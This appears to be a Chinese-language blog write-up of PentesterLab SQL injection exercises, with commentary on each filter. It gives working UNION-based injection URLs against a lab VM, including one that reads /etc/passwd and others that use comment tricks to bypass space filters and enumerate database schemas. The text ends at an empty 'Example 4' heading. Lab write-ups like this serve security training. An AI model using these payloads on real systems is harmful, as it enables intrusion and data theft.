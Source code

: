 title: Pentester Lab Writeup
date: 2016-03-21 10:16:46
tags: Pentest
categories: H-blog
---
> 玩了下exploit, 再来玩玩pentest。



# SQLI
## Example 1
没做任何过滤，简单。。不过看了下，mysql的用户没啥权限，所以最多就是查看数据库信息了，没法读系统文件，写文件getshell。。
Payload:
```
http://192.168.56.102/sqli/example1.php?name=admin%27%20union%20select%20version(),load_file(%22/etc/passwd%22),user(),4,5%23
```

## Example 2
这题就过滤了空格呗。。也简单。。  
```
http://192.168.56.102/sqli/example2.php?name=root%27/**/union/**/select/**/version(),user(),database(),4,5%23
http://192.168.56.102/sqli/example2.php?name=root%27/**/union/**/select/**/SCHEMA_NAME,user(),database(),4,5/**/from/**/information_schema.SCHEMATA%23
http://192.168.56.102/sqli/example2.php?name=root%27/**/union/**/select/**/TABLE_NAME,user(),database(),4,5/**/from/**/information_schema.TABLES/**/where/**/table_schema=%22exercises%22%23
```

## Example 3

只能说上题的payload还能用。
```
http://192.168.56.102/sqli/example3.php?name=root%27/**/union/**/select/**/user(),database(),version(),4,5%23
```

去看看源码。。看看这两题的过滤有啥区别。。
```
//example2.php
if (preg_match('/ /', $_GET["name"])) {
		die("ERROR NO SPACE");	
}
//example3.php
if (preg_match('/\s+/', $_GET["name"])) {
		die("ERROR NO SPACE");	
	}
```

这过滤对我的payload并没有影响。。

## Example 4
